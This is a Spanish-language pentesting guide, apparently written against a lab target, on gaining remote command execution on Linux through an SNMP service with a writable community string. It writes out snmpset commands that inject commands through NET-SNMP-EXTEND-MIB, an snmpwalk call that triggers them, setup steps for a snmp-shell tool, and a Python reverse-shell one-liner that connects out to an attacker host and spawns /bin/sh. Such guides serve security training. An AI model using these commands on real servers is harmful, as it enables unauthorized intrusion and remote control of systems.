







# SNMP (RCE Linux)

## INTRODUCCIÓN


Fuente



Fuente


El servicio SNMP es muchas veces olvidado por el administrador del equipo o servidor, dejandolo con la configuración por defecto.

Un servicio SNMP con **permisos de escritura (rwcommunity) en un sistema Linux** puede ser explotado para ganar acceso y ejecutar comandos en el servidor.



## EXTENDER SERVICIOS

Aunque no tienes permisos para modificar las entradas existentes en el **`snmpd.conf`**, si que es posible añadir comandos adicionales de SNMP por qué el permiso "**MAX-ACCESS**" en el MIB es "**read-create**".

Añadir un nuevo comando básicamente funciona añadiendo una fila extra a la tabla "**nsExtendObjects**":

```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

Al injectar un comando que ejecutar en el servicio SNMP, NET-SNMP-EXTEND-MIB necesita que utilices la ruta completa al ejecutable. El binario o script llamado tambien debe existir y ser ejecutable.



Podemos ejecutar el comando que hemos injectado enumerándolo con snmpwalk.

```
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Vemos que el comando es /bin/echo:



El comando se ejecuta cuando es leído. **run-on-read()**



El comando fué ejecutado finalmente durante snmpwalk:



## OBTENER UNA SHELL CON NET-SNMP EXTEND

La forma más rápida y automatizada de hacerlo es con la siguiente herramienta en Python:


Fuente


```
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

### Manualmente

Tambien se puede crear una shell reversa manualmente inyectando el siguiente comando en SNMP:

```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```



Ejecutamos snmpwalk para activar la ejecución del comando:



Por último, nuestro netcat recibe la reverse shell y obtenemos control sobre el objetivo
